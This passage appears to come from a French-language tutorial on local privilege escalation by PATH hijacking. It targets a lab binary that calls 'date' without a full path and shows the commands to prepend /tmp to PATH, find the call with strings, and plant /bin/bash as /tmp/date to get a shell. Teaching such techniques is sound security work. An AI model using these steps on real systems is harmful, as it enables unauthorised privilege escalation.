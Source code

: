 ```bash
export PATH=/tmp:$PATH
```

Si on affiche sa nouvelle valeur :

```bash
echo $PATH
```
```
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

On voit bien que notre ``/tmp`` a été ajouté au tout début. Et donc on va d'abord aller check dans ce répertoire.

Si on exécute de nouveau notre binaire :


Là vous vous demandez peut-être comment l'utilisateur va pouvoir deviner que le binaire va lancer la commande ``date`` sans spécifier le chemin ?<br>
Avec la commande ``strings`` on va pouvoir afficher les **chaînes de caractères lisibles** qui apparaissent dans le binaire :

```bash
strings ./check_date
```
```
u/UH
[]A\A]A^A_
echo "Today's date is : " ; date
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
deregister_tm_clones
```

Entre toutes ces chaînes illisibles on voit bien apparaitre ce qui nous intéresse.

Maintenant essayons d'exécuter de nouveau notre binaire :

```bash
./check_date
```
```
Today's date is :
uid=1000(krowz) gid=33(www-data) groups=33(www-data)
```

On voit bien que le binaire est exécuté en tant que l'utilisateur de la machine. 

Notre vulnérabilité et son exploitation fonctionnent !

Pour obtenir un shell rien de plus simple, dans ``/tmp`` il suffit de refaire la **même manipulation** mais de mettre ``/bin/bash`` dans ``/tmp/date`` plutôt que ``/bin/id``.

```bash
echo /bin/bash > /tmp/date
chmod 777 /tmp/date
```
